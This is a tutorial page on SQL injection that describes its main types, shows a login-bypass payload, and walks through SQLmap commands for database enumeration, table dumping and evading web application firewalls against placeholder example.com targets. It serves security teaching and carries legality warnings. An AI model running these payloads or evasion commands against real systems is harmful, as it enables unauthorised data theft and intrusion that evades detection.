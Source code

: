 ```yaml
---
title: SQL Injection
sidebar_position: 5
---
```


## Introduction to SQL Injection

SQL Injection (SQLi) is a common web application vulnerability that allows attackers to interfere with the queries an application makes to its database. By injecting malicious SQL statements into a form field or URL parameter, attackers can gain unauthorized access to data, manipulate database entries, or even execute commands on the server.

:::danger
SQL Injection attacks are **illegal** without permission. You should only test systems you have authorization to assess. Unauthorized testing can lead to severe legal consequences.
:::

## Types of SQL Injection

1. **In-band SQLi**:
   - The attacker is able to use the same communication channel to both inject the malicious SQL commands and retrieve results. The most common types are:
     - **Error-based SQLi**: Relies on error messages returned by the database.
     - **Union-based SQLi**: Leverages the `UNION` SQL operator to combine multiple select queries.

2. **Inferential SQLi (Blind SQLi)**:
   - The attacker does not receive direct feedback from the database but infers the database's response by analyzing the behavior of the application. This can be:
     - **Boolean-based SQLi**: Exploits the fact that the SQL query's result will alter the behavior of the application depending on the query's truth value.
     - **Time-based SQLi**: Manipulates the database to delay its responses, allowing the attacker to infer data based on the response time.

3. **Out-of-band SQLi**:
   - The attacker relies on external server responses (such as DNS or HTTP requests) to exfiltrate data.

## Example of SQL Injection

Let's assume we have a vulnerable login form where the backend SQL query looks like this:

```sql
SELECT * FROM users WHERE username = 'input_username' AND password = 'input_password';
```

An attacker could submit the following input:

- `input_username`: `' OR 1=1 --`
- `input_password`: `anything`

This modifies the SQL query to:

```sql
SELECT * FROM users WHERE username = '' OR 1=1 --' AND password = 'anything';
```

In this case, `1=1` is always true, allowing the attacker to bypass authentication.

## SQL Injection Tutorial

This tutorial will guide you through identifying and exploiting SQL injection vulnerabilities using **SQLmap**, a popular open-source tool.

### Step 1: Identifying a Vulnerable Parameter

Use a basic SQL injection payload to test if a web application's parameter is vulnerable. For example, on a URL like this:

```
http://example.com/page.php?id=1
```

Try modifying the `id` parameter to:

```
http://example.com/page.php?id=1' OR '1'='1
```

### Step 2: Installing SQLmap

:::info
Pre-installed with Kali Linux.
:::

SQLmap can be installed via **Git**:

```
git clone https://github.com/sqlmapproject/sqlmap.git 
cd sqlmap
```

:::info
On Kali Linux, you don't need to type `python sqlmap.py` in the command line. The command has been aliased to `sqlmap`
:::

```bash
python sqlmap.py -u "http://example.com/page.php?id=1" --dbs
```

- `-u` specifies the URL to test.
- `--dbs` enumerates the databases.

### Step 4: Extracting Data

Once SQLmap confirms that the parameter is vulnerable, you can extract specific data from the database. For example, to extract data from a specific table:

```
python sqlmap.py -u "http://example.com/page.php?id=1" -D database_name -T table_name --dump
```

- `-D` specifies the database name.
- `-T` specifies the table name.
- `--dump` extracts all the data from the specified table.

### Step 5: Avoiding Detection

To avoid detection by web application firewalls (WAFs), SQLmap allows you to use various evasion techniques, such as encoding payloads or delaying requests:

```
python sqlmap.py -u "http://example.com/page.php?id=1" --random-agent --delay=2 --hex
```

- `--random-agent`: Randomizes the user agent in each request.
- `--delay`: Adds a delay between each request to avoid triggering rate limits.
- `--hex`: Encodes the payload in hexadecimal to evade detection.

## Conclusion

SQL Injection is a powerful attack vector, and tools like SQLmap make it easier to exploit vulnerable systems. However, it’s crucial to remember that ethical guidelines must always be followed. Testing without permission is illegal and unethical. Always ensure that you are operating within the boundaries of the law and with explicit consent.

## External Resources

- [OWASP SQL Injection Guide](https://owasp.org/www-community/attacks/SQL_Injection)
- [SQLmap Documentation](https://sqlmap.org/)